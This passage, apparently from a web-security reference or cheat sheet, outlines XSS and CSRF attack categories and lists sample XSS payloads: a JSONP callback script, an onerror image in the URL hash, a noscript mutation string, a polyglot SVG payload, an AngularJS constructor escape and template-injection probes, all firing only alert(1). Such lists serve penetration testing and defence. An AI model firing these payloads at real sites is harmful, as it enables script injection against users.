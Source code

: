 ```
│   ├── Data URI scheme exploitation
│   └── Base tag injection
├── Filter Evasion Techniques
│   ├── Encoding-based bypasses
│   ├── HTML entity obfuscation
│   ├── JavaScript obfuscation
│   ├── Polyglot payloads
│   └── Mutation-based bypasses
└── Framework-specific XSS
    ├── React XSS vulnerabilities
    ├── Angular XSS patterns
    ├── Vue.js XSS issues
    └── Server-side template injection
```

**Advanced XSS Payloads:**
```html

<script src="https://api.example.com/jsonp?callback=alert"></script>


<script>
location.hash = '#<img src=x onerror=alert(1)>';
</script>


<noscript><p title="</noscript><img src=x onerror=alert(1)>">


javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>


{{constructor.constructor('alert(1)')()}}


${7*7}
#{7*7}
{{7*7}}
```

### Cross-Site Request Forgery (CSRF)

#### CSRF Attack Evolution
```
CSRF Attack Categories:
├── Traditional CSRF
│   ├── GET request CSRF
│   ├── POST request CSRF
│   ├── Multipart form CSRF
│   └── JSON-based CSRF
├── Advanced CSRF Techniques
│   ├── Login CSRF
│   ├── Logout CSRF
│   ├── File upload CSRF
│   ├── Password change CSRF
│   └── Account takeover CSRF
├── SameSite Cookie Bypasses
│   ├── Subdomain manipulation
│   ├── Domain confusion attacks
│   ├── Navigation-based bypasses
│   └── WebSocket CSRF
└── Modern Application CSRF
    ├── Single Page Application CSRF
```